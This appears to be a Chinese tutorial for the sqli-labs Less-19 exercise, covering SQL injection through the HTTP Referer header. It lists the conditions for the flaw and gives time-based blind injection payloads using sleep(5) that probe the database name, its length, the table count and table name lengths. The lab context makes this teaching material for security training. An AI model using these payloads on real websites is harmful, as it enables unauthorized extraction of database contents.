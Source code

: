 ## **http-Referer 注入及流量分析**

### **一、**referer **注入条件**

- 1、用了 http 头的 referer
- 2、没有过滤 referer
- 3、用 referer 进行了 sql 操作

#### 实验演示 Less-19

首先看 Less-19 的源代码

通过 burpsuite 查找注入点

网站提示有 `referer` 信息，可能有注入点

验证

### **二、用如下** **Payload** **进行注入**

#### Less-19 时间盲注

`referer`

##### 数据库长度

```bash
' or if(length(database())=8,sleep(5),null) or '1'='1
```

![image-20240807142439357](../../../../repo/assets/19.SQL注入/image-20240807142439357.png)

##### 数据库名

```bash
' or if(substr(database(),1,1)='s',sleep(5),0) or '1'='1
```

![image-20240807194818146](../../../../repo/assets/19.SQL注入/image-20240807194818146.png)

##### 几张表

```bash
' or if((select count(table_name) from information_schema.tables where table_schema=database())=4,sleep(5),0) or '1'='1
```

![image-20240807194924211](../../../../repo/assets/19.SQL注入/image-20240807194924211.png)

##### 第一张表名长度

```bash
' or if(length((select table_name from information_schema.tables where table_schema='security' limit 0,1))=6,sleep(5),0) or '1'='1
```
